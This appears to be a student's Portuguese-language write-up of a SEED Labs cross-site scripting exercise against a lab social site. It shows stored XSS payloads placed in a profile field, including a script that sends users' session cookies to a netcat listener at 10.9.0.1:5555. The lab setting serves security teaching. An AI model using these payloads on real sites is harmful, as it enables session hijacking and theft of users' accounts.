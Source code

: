 # Trabalho realizado na Semana #10

## Tarefa 1
Efetuou-se o *log in* na plataforma http://www.seed-server.com sob o perfil de Alice forncido. Para efetuar o XSS, alterou-se a secção *Brief Description* para o código indicado. 

![/imgs10/brief.png](/imgs10/brief.png)

Imediamente após o guardar das alterações, como esperado, obteve-se o *pop-up*:

![/imgs10/popup.png](/imgs10/popup.png)

Experimentou-se também com o exemplo usando um *form* e apesar de apenas se usar um *link* exemplificativo, pode comprovar-se que efetivamente funcionaria: 

![/imgs10/withForm.png](/imgs10/withForm.png)

## Tarefa 2

Alterou-se novamente a secção *Brief Description* desta vez para:
``` js
<script>alert(document.cookie);</script>
```

Como resultado, surgiu o *pop up* com as *cookies* do utilizador mal as alterações foram guardadas.

![/imgs10/cookies.png](/imgs10/cookies.png)

## Tarefa 3

Inicialmente, na *shell*, correu-se o seguinte comando por forma a iniciar o servidor TCP:
``` shell
nc -lknv 5555
```

Seguidamente mudou-se *Brief Description* para efetuar o ataque:

``` js
<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >'); </script>
```

Após guardar as alterações no perfil, verificou-se a chegada das *cookies* do utilizador autenticado, neste caso, da Alice ao terminal onde se tinha iniciado o servidor.

![/imgs10/cookiesAlice.png](/imgs10/cookiesAlice.png)

Por forma a melhor testar a solução encontrada, efetuou-se a autenticação de Boby e acedeu-se ao perfil de Alice.

Sem surpresa, chegou ao terminal as cookies de Boby.

![/imgs10/cookiesBoby.png](/imgs10/cookiesBoby.png)